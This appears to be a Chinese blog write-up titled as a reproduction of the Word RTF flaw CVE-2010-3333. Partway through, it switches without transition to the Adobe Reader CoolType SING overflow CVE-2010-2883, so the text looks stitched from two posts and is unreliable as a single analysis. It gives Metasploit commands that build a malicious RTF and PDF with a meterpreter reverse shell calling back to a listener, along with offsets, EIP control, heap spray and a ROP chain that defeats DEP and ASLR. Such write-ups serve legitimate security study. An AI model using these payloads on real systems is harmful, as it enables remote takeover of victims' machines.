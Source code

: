 ```yaml
---
layout:		post
title:		CVE-2010-3333分析 & 复现
author:		wooy0ung
tags:		msf
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP SP3  
>漏洞软件: Microsoft Office Word 2003 SP3  
>注意: 需要安装英文版, 安装后不是SP3的记得打上SP3的补丁包。
<!-- more -->


### 0x00 前期准备

安装Microsoft Office 2003 SP3 & 生成msf.rtf

```
msf > use exploit/windows/fileformat/ms10_087_rtf_pfragments_bof
msf > info
msf > set target 2
msf > set payload windows/meterpreter/reverse_tcp
msf > set lhost 192.168.2.63
msf > set lport 9000
msf > run
```

![](/assets/img/exploit/2017-09-23-cve-2010-3333/0x00.png)

启动Word, WinDbg附加上去, 打开msf.rtf触发异常, 断在了内存copy指令rep movs上

![](/assets/img/exploit/2017-09-23-cve-2010-3333/0x01.png)

发现程序往READONLY内存区域写数据, 触发异常的指令地址是0x30ed442c, 位于mso.dll

![](/assets/img/exploit/2017-09-23-cve-2010-3333/0x02.png)

定位到mso.dll的路径







第一处脆弱点, strcat没对字符串长度进行检查, 导致栈溢出

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x01.png)

第二处脆弱点在0x0808B308, call [eax]导致可以构造任意call, 控制eip的指向


### 0x01 Dump TTF

生成恶意pdf

```
msf > use exploit/windows/fileformat/adobe_cooltype_sing
msf > set payload windows/meterpreter/reverse_tcp
msf > set lhost 192.168.2.63
msf > set lport 9000
msf > run
```

导入pdf, Search_For->TTF Fonts, 选中TTF数据右键->Save Decompressed Stream

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x02.png)

TableEntry结构

```
typedef struct_SING
{
        char    tag[4];
        ULONG   checkSum;
        ULONG   offset;
        ULONG   length;
} TableEntry;
```

Dump数据0x0EC处的SING字段标记SING表的表头

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x03.png)

偏移表头0x00C处表示SING表数据相对文件的偏移(0x000->0x11C)

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x04.png)

相对于SING表数据开始再偏移0x010(uniqueName)开始复制到栈上


### 0x02 调试

定位到strcat, 查看payload入栈的首地址

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x05.png)

此处数据与dump出来的一致, 确定payload在栈首地址0x0012E4D8

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x06.png)

注意这几处调用0x0803DEAF->0x08016C56->0x0801BB41->0x0808B308, 定位到call [eax]

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x07.png)

这时调用的是栈上0x0012E6D0存的一个地址, 0x0012E6D0-0x0012E4D8=0x1F8

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x08.png)

将偏移payload的0x1F8~0x1FC共4bytes修改成目的地址(此处为0x4A80CB38), 即可控制EIP跳转, 然后构造ROP

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x09.png)

偏移payload的0x008~0x00C修改成ROP指令地址, 0x00C~0x00F修改成0x0C0C0C0C

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x0a.png)

通过HeapSpray将shellcode弹到栈上

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x0b.png)

构造ROP, 依次调用CreateFileA->CreateFileMappingA->MapViewOfFile->memcpy将栈上的shellcode复制到有r-w-x权限的内存段


### 0x03 exploit

打开msf监听, F9直接运行

```
msf > use /exploit/mutil/handler
msf > set payload windows/meterpreter/reverse_tcp
msf > set lhost 192.168.2.63
msf > set lport 9000
msf > exploit -j
```

后门已经反弹回来

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x0c.png)

由于icucnv36.dll没有开启ASLR, 以上构造的ROP指令能绕过DEP、ASLR